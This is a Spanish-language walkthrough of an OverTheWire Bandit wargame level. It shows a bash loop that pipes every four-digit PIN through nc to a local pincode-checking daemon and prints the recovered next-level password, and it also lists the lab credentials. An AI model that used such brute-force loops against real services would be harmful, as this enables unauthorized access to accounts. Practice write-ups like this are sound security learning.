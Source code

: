 ## Objetivo 
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time
## Datos de acceso al nivel 
bandit24
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
## Solución  
```bash
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 1234
Wrong! Please enter the correct current password and pincode. Try again.
bandit24@bandit:~$ for i in {0000..9999}; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i ; done | nc localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

```
## Notas Adicionales 
grep -v filtra todas las lineas que no contengan la palabra siguiente. (grep -v Wrong)
### Referencias

